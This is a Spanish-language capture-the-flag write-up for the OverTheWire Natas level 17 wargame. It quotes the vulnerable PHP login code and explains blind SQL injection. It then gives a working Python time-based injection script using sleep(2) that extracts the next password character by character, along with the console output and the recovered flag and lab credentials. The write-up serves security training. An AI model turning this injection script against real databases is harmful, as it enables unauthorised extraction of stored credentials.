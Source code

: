 #Natas Level 16 → Level 17

Username: natas16

URL:      http://natas16.natas.labs.overthewire.org

##Write Up Iker

Abrimos un navegador y nos conectamos a la página: 

- **URL        : http://natas17.natas.labs.overthewire.org** 
- **Usuario    : natas17**
- **Contraseña : 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw**

La contraseña la hemos sacado del nivel anterior.

Entramos a la web y nos muestra un campo donde tenemos que meter el nombre de un usuario. Este reto se parece mucho al nivel 15.

Antes de hacer nada vamos a mirar el código fuente del reto:

```php
<? 

/* 
CREATE TABLE `users` ( 
  `username` varchar(64) DEFAULT NULL, 
  `password` varchar(64) DEFAULT NULL 
); 
*/ 

if(array_key_exists("username", $_REQUEST)) { 
    $link = mysql_connect('localhost', 'natas17', '<censored>'); 
    mysql_select_db('natas17', $link); 
     
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\""; 
    if(array_key_exists("debug", $_GET)) { 
        echo "Executing query: $query<br>"; 
    } 

    $res = mysql_query($query, $link); 
    if($res) { 
    if(mysql_num_rows($res) > 0) { 
        //echo "This user exists.<br>"; 
    } else { 
        //echo "This user doesn't exist.<br>"; 
    } 
    } else { 
        //echo "Error in query.<br>"; 
    } 

    mysql_close($link); 
} else { 
?> 
```

Introducimos el nombre del usuario **natas17** para ver que resultado nos da pero no obtenemos ningún mensaje. Probamos con algún otro usuario y tampoco.

Si nos fijamos bien en el código fuente, observamos que los campos para mostrar mensajes **están comentados!** Y es por eso que no nos muestra ningún mensaje.

¿Entonces como podemos saber si el usuario existe o no existe como lo hicimos en el reto de **Natas15**?

La respuesta es no lo sabemos, pero sabemos de otras técnicas de **SQL Injection** que nos pueden servir para este reto.

Vamos a leer algo sobre este tipo de técnica: 

El atacante inyecta comandos SQL porque la aplicación es vulnerable a SQL injection pero nunca puede acceder a los resultados que devuelve la consulta porque la aplicación no los imprime. 
Sin embargo se puede apreciar un comportamiento distinto ante consultas que devuelven datos y consultas que no devuelven datos. 
A partir de este comportamiento distinto se intenta inyectar lógica para extraer la información en base a valores True o False.

**Boolean-based blind:** Se basa en una técnica que intenta extraer información carácter a carácter, insertando tras la consulta válida una consulta de tipo SELECT que comprobará si el carácter solicitado se corresponde con el carácter almacenado en la BD.
**Time-based blind:** Utilizando un principio similar a la técnica anterior, esta vez la consulta SELECT introduce un delay en la BD que solo se ejecutará en el caso de que se cumpla la condición que posteriormente le permitirá al atacante obtener una respuesta de válido o inválido gracias a las esperas en la presentación de los resultados.

Una vez que hemos entendido la técnica, vamos a utilizar un **sleep(2)** en la consulta para saber si es **Verdadero** o **Falso**

Si el resultado es positivo, sabremos que la letra del password es correcta. Si por el contrario nos devuelve un valor **Falso** sabremos que no existe esa letra.

NOTA: Para esta prueba he necesitado leer mucho acerca de **Time-Based SQL Injection** ya que nunca había realizado un ataque así manualmente. He buscado ejemplos en muchos foros y por eso se me a complicado el reto. De todas formas al final lo he conseguido que es lo que importa :smile: 
 
Escribimos el script y lo llamaremos **blindNatas17Injector.py**

```python
import httplib2
import urllib
import time
 
h = httplib2.Http()
h.add_credentials('natas17', '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw')
 
passTemporal        = "";
letras              = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
posicion            = 0

contUsuarioExiste   = 0
contUsuarioNoExiste = 0

while posicion < len(letras):
        payload = "natas18\" AND if(password LIKE BINARY \"" + passTemporal + letras[posicion] + "%\", sleep(2), 0);# "
        query = urllib.urlencode(dict(username=payload))
        start = time.time()
        resp, contenido = h.request("http://natas17.natas.labs.overthewire.org/index.php?" + query, method="POST")
        end = time.time()
        if end - start >= 2:
                passTemporal += letras[posicion];
                print("Nueva password encontrada: " + passTemporal)
                posicion = 0
                contUsuarioExiste +=1
                if (len(passTemporal)==32):
                        break;
                continue
        else:
                contUsuarioNoExiste +=1
        posicion += 1

print "-"*70
print "Pruebas Erroneas       = {0}".format(contUsuarioNoExiste)
print "Pruebas Satisfactorias = {0}".format(contUsuarioExiste)
print "-"*70
print "Password Natas16 = {0}".format(passTemporal)
print "-"*70
```

Lo ejecutamos y vamos viendo lo que sale en la consola:

```bash
ikerburguera@:~/Desktop$ python blindNatas17Injector.py 
Nueva password encontrada: x
Nueva password encontrada: xv
Nueva password encontrada: xvK
Nueva password encontrada: xvKI
Nueva password encontrada: xvKIq
Nueva password encontrada: xvKIqD
Nueva password encontrada: xvKIqDj
Nueva password encontrada: xvKIqDjy
Nueva password encontrada: xvKIqDjy4
Nueva password encontrada: xvKIqDjy4O
Nueva password encontrada: xvKIqDjy4OP
Nueva password encontrada: xvKIqDjy4OPv
Nueva password encontrada: xvKIqDjy4OPv7
Nueva password encontrada: xvKIqDjy4OPv7w
Nueva password encontrada: xvKIqDjy4OPv7wC
Nueva password encontrada: xvKIqDjy4OPv7wCR
Nueva password encontrada: xvKIqDjy4OPv7wCRg
Nueva password encontrada: xvKIqDjy4OPv7wCRgD
Nueva password encontrada: xvKIqDjy4OPv7wCRgDl
Nueva password encontrada: xvKIqDjy4OPv7wCRgDlm
Nueva password encontrada: xvKIqDjy4OPv7wCRgDlmj
Nueva password encontrada: xvKIqDjy4OPv7wCRgDlmj0
Nueva password encontrada: xvKIqDjy4OPv7wCRgDlmj0p
Nueva password encontrada: xvKIqDjy4OPv7wCRgDlmj0pF
Nueva password encontrada: xvKIqDjy4OPv7wCRgDlmj0pFs
Nueva password encontrada: xvKIqDjy4OPv7wCRgDlmj0pFsC
Nueva password encontrada: xvKIqDjy4OPv7wCRgDlmj0pFsCs
Nueva password encontrada: xvKIqDjy4OPv7wCRgDlmj0pFsCsD
Nueva password encontrada: xvKIqDjy4OPv7wCRgDlmj0pFsCsDj
Nueva password encontrada: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjh
Nueva password encontrada: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhd
Nueva password encontrada: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
----------------------------------------------------------------------
Pruebas Erroneas       = 734
Pruebas Satisfactorias = 32
----------------------------------------------------------------------
Password Natas16 = xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
----------------------------------------------------------------------
```

Y nos devuelve la contraseña :sunglasses: :beers:

**FLAG** = {xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP}



